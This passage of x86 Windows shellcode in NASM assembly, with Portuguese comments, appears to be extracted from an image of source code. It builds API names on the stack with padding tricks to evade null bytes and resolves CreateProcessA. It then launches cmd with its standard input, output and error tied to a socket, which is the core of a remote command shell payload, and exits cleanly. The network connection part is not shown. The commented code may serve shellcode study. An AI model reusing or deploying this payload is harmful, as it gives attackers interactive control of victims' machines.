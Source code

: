 ```nasm
	sub word [esp + 0x2], 0x4e4e ;removendo o "NN"
	push 0x7365636f              ;movendo seco para stack
	push 0x72506574              ;movendo rPet para stack
	push 0x61657243              ;movendo aerC para stack
	push esp                     ;movendo ponteiro da string para a stack
	push ebx                     ;movendo ponteiro da kernel32 para esi
	call ebp                     ;chamando GetProcAddress("kernel32.dll", "CreateProcessA")
	mov esi, ebx                 ;salvando kernel32 em um novo ponteiro

cmd:

	push 0x4e646d63            ;movendo Ndmc para stack
	sub word [esp + 0x3], 0x4e ;removendo o "N"
	mov ebx, esp               ;movendo ponteiro da string para a stack
        ;configurando a estrutura STARTUPINFO
	push edi                   ;preenchendo o argumento hStdError com o socket
	push edi                   ;preenchendo o argumento hStdOutput com o socket
	push edi                   ;preenchendo o argumento hStdInput com o socket
	xor edi, edi               ;limpando edi par usar com os NULLs que precisamos
	push byte 0x12             ;enviaremos 18 * 4 = 72 null bytes para stack (tamanho da estrutura da STARTUPINFOA)
	pop ecx                    ;preparando ecx para o loop

looper:

	push edi                         ;enviando uma dword null para stack
	loop looper                      ;fazendo o loop até enviar para stack os nulls suficientes
	mov word [esp + 0x3c], 0x0101    ;configurando dwFlags para STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
	mov byte [esp + 0x10], 0x44      ;configurando cb com o tamanho da estrutura 0x44 = 68 decimal
	lea ecx, [esp + 0x10]            ;configurando ecx como um ponteiro para a estrutura STARTUPINFO
	;montando e chamando CreateProcessA
	push esp                         ;enviando ponteiro da PROCESS_INFORMATION para stack
	push ecx                         ;enviando ponteiro da STARTUPINFOA para stack
	push edi                         ;argumento lpCurrentDirectory será NULL então o processo inicializará no mesmo diretório do processo pai
	push edi                         ;argumento lpEnvironment será NULL então o processo terá o mesmo ambiente do processo pai
	push edi                         ;argumento dwCreationFlags será NULL
	inc edi                          ;edi==1
	push edi                         ;argumento bInheritHandles=TURE
	dec edi                          ;edi==0
	push edi                         ;argumento lpThreadAttributes será NULL
	push edi                         ;argumento lpProcessAttributes será NULL
	push ebx                         ;argumento lpCommandLine apontará para "cmd,0"
	push edi                         ;argumento lpApplicationName será NULL
	call eax                         ;chamando CreateProcessA

ExitProcess:

	push 0x4e737365            ;movendo Nsse para stack
	sub word [esp + 0x3], 0x4e ;removendo o "N"
	push 0x636f7250            ;movendo corP para stack
	push 0x74697845            ;movendo tixE para stack
	push esp                   ;movendo ponteiro da string para a stack
	push esi                   ;movendo ponteiro da kernel32 para esi
	call ebp                   ;chamando GetProcAddress("kernel32.dll", "ExitProcess")

	;chamando ExitProcess
	xor ecx, ecx               ;zerando registrador
	push ecx                   ;enviando 0x00 para stack
	call eax                   ;chamando ExitProcess
```